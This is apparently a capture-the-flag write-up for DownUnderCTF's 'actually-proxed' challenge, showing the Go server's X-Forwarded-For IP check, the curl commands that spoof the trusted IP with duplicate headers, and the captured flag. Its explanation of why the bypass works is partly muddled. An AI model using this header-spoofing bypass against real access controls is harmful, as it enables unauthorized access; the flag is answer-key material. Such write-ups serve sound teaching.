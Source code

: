 # actually-proxed
> Still cool haxxorz only!!! Except this time I added in a reverse proxy for extra security. Nginx and the standard library proxy are waaaayyy too slow (amateurs). So I wrote my own :D

## About the Challenge
We got a source code and a website. Here is the content of the source code

```go
package main

import (
	"flag"
	"fmt"
	"log"
	"net/http"
	"os"
	"strings"
)

var (
	port = flag.Int("port", 8081, "port to listen on")
)

func main() {

	flag.Parse()

	http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		xff := r.Header.Values("X-Forwarded-For")

		ip := strings.Split(r.RemoteAddr, ":")[0]

		if xff != nil {
			ips := strings.Split(xff[len(xff)-1], ", ")
			ip = ips[len(ips)-1]
			ip = strings.TrimSpace(ip)
		}

		// 1337 hax0rz 0nly!
		if ip != "31.33.33.7" {
			message := fmt.Sprintf("untrusted IP: %s", ip)
			http.Error(w, message, http.StatusForbidden)
			return
		} else {
			w.Write([]byte(os.Getenv("FLAG")))
		}
	})

	log.Printf("Listening on port %d", *port)
	log.Fatal(http.ListenAndServe(fmt.Sprintf(":%d", *port), nil))
}
```

To obtain the flag, we need to set the IP to `31.33.33.7`. And as you can see, the website also allow a header called `X-Forwarded-For`

## How to Solve?
If I provided `X-Forwarded-Header` like this

```bash
curl "http://actually.proxed.duc.tf:30009/" -H "X-Forwarded-For: 127.0.0.1"
```

The output will be like this

![header](images/header.png)

If we provide `X-Forwarded-For` header again (So, later there will be 2 `X-Forwarded-For` headers in 1 HTTP request). The second header will affect the `r.RemoteAddr`. And the final command will be like this

```bash
curl "http://actually.proxed.duc.tf:30009/" -H "X-Forwarded-For: 127.0.0.1" -H "X-Forwarded-For: 31.33.33.7"
```

![flag](images/flag.png)

```
DUCTF{y0ur_c0d3_15_n07_b3773r_7h4n_7h3_574nd4rd_l1b}
```
